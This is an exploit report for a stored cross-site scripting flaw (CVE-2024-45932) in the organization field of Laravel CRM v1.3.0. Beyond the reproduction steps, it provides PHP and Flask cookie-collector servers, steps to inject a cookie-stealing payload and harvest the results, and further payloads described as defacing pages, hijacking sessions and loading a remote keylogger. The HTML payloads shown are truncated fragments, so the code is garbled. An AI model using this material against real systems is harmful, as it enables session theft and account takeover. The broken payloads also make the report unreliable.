



# Exploit Report: Laravel CRM v1.3.0 - stored Cross-Site Scripting vulnerability

- **Exploit Title:** Laravel CRM v1.3.0 -stored Cross-Site Scripting vulnerability
- **Date:** 20-08-2024
- **Exploit Author:** Aslam Anwar Mahimkar
- **Vendor Homepage:** [krayincrm.com](https://krayincrm.com/)
- **Software Link:** [Laravel CRM v1.3.0](https://github.com/krayin/laravel-crm/releases/tag/v1.3.0)
- **Version:** 1.3.0
- **Tested On:** Kali Linux
- **CVE:** CVE-2024-45932

## Description

The Laravel CRM v1.3.0 web application is vulnerable to a persistent XSS vulnerability in the organization name field. When a user enters a malicious payload into the organization name field in `/laravel-crm/admin/contacts/organizations/edit/2`, this payload is executed when the user later views the associated person’s page. This occurs due to the organization name being reflected on the person’s page without proper sanitization or escaping.

## Affected Endpoint:

`/laravel-crm/admin/contacts/organizations/edit/2`

## Payload:

Use the following payload in the "Organization" name field during the creation or editing of a person:

```html
2">
```

## Reproduction Steps:

1. Navigate to the "Edit Person" page and insert the payload in the "Organization" field.
2. Save the changes and revisit the person’s page.
3. The XSS will trigger, confirming the vulnerability.

## Impact

This vulnerability poses the risk of:

- Data exposure.
- Session hijacking.
- Other malicious activities.

### To make the exploitation more impactful, consider using advanced payloads that demonstrate a higher level of exploitation. Here are some examples:

### 1. Stealing Cookies:

```html
2">
```





---

## On Kali

### Create `steal.php`

- Navigate to your web server’s root directory:
  - **Ubuntu**: `/var/www/html/`
  - **XAMPP (Windows)**: `C:\xampp\htdocs\`
- Create a file named `steal.php`:

```php
<?php
file_put_contents('cookies.txt', $_GET['c'] . "
", FILE_APPEND);
?>
```


---

### Create `steal.py`

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/steal.php')
def steal():
    cookie = request.args.get('c')
    with open('cookies.txt', 'a') as f:
        f.write(f'{cookie}
')
    return '', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```



---

### Run the `steal.py`:

```bash
python steal.py
```


---

## Inject the Payload:
- Navigate to the target application, particularly the `/laravel-crm/admin/contacts/organizations/edit/2` endpoint.
- In the "Organization" name field, input the payload.

## Trigger the Payload:
- Save the changes and revisit the affected page (e.g., the person's page). This will execute the payload.

## Check Your Server:
- Visit your server and check `cookies.txt` for stolen cookies.


---

## Additional Payloads

You can also try the following payloads for more advanced attacks:

### 1. Defacement:
```html
2">Hacked by [Your Name]</h1>';>
```
This payload will replace the entire page content with a message indicating the site has been hacked.

### 2. Session Hijacking:
```html
2"></iframe>');>
```
This payload inserts an iframe to a malicious site that could steal session information.

### 3. Keylogging:
```html
2"></script>';>
```
This payload injects a script tag to load a keylogger from a remote server, potentially capturing user input.
